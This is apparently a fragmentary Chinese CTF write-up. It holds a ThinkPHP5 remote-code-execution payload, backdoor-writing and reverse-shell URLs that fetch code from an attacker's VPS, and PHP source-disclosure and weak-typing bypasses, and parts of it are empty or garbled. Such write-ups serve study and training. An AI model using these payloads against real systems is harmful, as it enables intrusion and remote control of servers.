





前言
比赛很水，补一下残缺的wp
thinkphp?
thinkphp5 rce
payload：
_method=__construct&method=get&filter[]=show_source&filter[]=var_dump&server[]=1&get[]=/flag

untar
正解似乎是利用软链接获取flag，但是比赛没成功。参考链接：http://knqyf263.hatenablog.com/entry/2018/06/27/181037
这里用的是302跳转+perl 底层open触发命令执行
https://1isten.xyz/2018/10/03/%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%AF%B9ssrf%E7%9A%84%E7%90%86%E8%A7%A3/
修改backdoor.txt,改下你需要监听的vps和端口

写入后门
1 | http://183.129.189.62:15207/?filename=URI/listen.pm&url=http://vps/backdoor.txt |
反弹ｓｈｅｌｌ
1 | http://183.129.189.62:15207/?filename=xxx&url=http://vps/302.php |


# 大数据安全
payload一把搞
https://zhuanlan.zhihu.com/p/33681712

工控安全
根据apache2 php-cgi漏洞 /index.php-s获取源码
1 |
|
1 | 参考链接： |
＄畸形的正则结尾，在利用php弱类型绕过,$keyone == $secertkeyone=00000000000000000000000000000000000000000000000000000000000000000000006666672%EF%BC%84strstr($_SERVER[‘REQUEST_URI’],’You_Are_Cool’),该处直接对
YUrl编码绕过mime_content_type($f) == ‘application/vnd.font-fontforge-sfd’
该处绕过在文件上传处开头添加
SplineFontDB: 3.0
之后该处file_put_contents('/tmp/'.$filename,$secert);不知如何利用，总感觉有源码泄露但是没找到。等后面补上来.